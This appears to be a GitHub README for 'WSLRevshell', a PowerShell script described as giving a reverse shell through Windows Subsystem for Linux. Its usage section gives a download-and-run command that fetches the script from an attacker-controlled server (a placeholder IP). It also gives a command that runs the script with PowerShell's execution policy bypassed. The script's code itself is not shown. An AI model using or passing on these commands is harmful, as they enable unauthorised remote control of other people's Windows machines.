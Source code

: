 # WSLRevshell
A simple powershell script to get a reverse shell through Windows Subsystem Linux

Usage:

Host the powershell script on your server and execute: (New-Object System.Net.WebClient).DownloadString("http:\\IPGOESHERE\WSLRevshell.ps1")

Alternatively you can download the file to the local PC and execute it using: powershell.exe -exec Bypass WSLRevshell.ps1
